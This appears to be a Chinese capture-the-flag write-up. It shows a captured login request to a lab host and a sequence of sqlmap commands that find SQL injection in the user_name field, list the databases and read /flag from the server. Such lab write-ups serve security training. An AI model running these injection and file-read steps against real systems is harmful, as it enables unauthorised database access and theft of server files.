





<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->




登录界面抓包



保存到sqlmap.txt文件

```
POST /includes/login.php HTTP/1.1
Host: eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/
Cookie: PHPSESSID=mffqfi2m3ekldslts7b7kr0avm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_name=admin&user_password=123&login=
```

尝试探测，找到哪个字段存在注入点

```
sqlmap -r sqlmap.txt --batch
```




找到注入点为user_name，暴力破解数据库

```
sqlmap -r sqlmap.txt --batch --dbs
```


在mysql数据库中查找flag

```
sqlmap -r sqlmap.txt --batch -D "mysql" --file-read "/flag"
```




读取flag

```
cat /root/.local/share/sqlmap/output/eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/files/_flag
```




